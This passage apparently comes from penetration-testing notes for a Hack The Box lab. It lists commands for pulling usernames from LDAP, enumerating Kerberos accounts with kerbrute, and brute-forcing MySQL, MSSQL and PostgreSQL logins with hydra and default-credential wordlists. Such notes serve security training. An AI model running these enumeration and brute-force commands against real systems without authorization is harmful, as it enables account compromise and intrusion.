 ~~~ad-check
title:Make a user wordlist using LDAP (for bruteforcing later)

```bash
ldapsearch -H ldap://FOREST.htb.local/ -x -b 'DC=htb,DC=local' '(objectClass=person)' | grep -i samaccountname | cut -d ' ' -f 2 > users_LDAP.txt
```

*Screenshot*
___


~~~

### Kerberos (88)

> [GitHub - ropnop/kerbrute: A tool to perform Kerberos pre-auth bruteforcing](https://github.com/ropnop/kerbrute)
> If we have a list of names (from a website maybe) we can convert it to a possible users wordlist, and then we can enumerate valid usernames if kerberos is open using kerbrute:

~~~ad-info
title:Username Wordlist creation

```bash
namemash.py names.txt > possible_users.txt
```
~~~

~~~ad-check
title:Brute Forcing Kerberos
Now we can feed this wordlist into kerbrute:

```bash
kerbrute userenum --dc null -d DOMAIN -t 20 possible_users.txt
```

*Screenshot*
___

___
~~~

### SQL Brute Force (3306, 1433, 5432 ...)

~~~ad-check
title:Brute-force MySQL, MSSQL, PostgreSQL for default credentials:

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt null mysql
```

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/mssql-betterdefaultpasslist.txt null mssql
```

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/postgres-betterdefaultpasslist.txt null postgres
```

*Screenshot*
___

___
~~~
